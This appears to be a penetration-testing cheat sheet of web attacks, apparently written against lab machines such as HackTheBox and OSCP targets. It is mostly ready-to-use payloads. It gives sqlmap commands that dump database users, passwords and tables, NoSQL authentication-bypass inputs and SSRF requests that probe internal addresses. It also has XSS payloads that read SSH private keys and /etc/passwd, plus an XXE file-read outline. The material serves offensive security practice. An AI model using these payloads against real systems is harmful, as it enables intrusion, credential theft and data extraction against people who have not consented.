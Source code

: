 ```
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords

sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5
# NoSQL
' || 'a'=='a
mongodbserver:port/status?text=1

#in URL
username[$ne]=toto&password[$ne]=toto

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

## SSRF

web that send request to external IP's, we call 127.0.0.1:8080 / 10.1.10.111 to enum internal network

chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:3000
GET /ssrf?user=&comment=&link=http://127.0.0.1:3000 HTTP/1.1

Also we can enum ports
```

### XSS

```
<script>alert("XSS")</script>
<script>alert(1)</script>

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html?m=1

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>Hack The &book;</thp>

```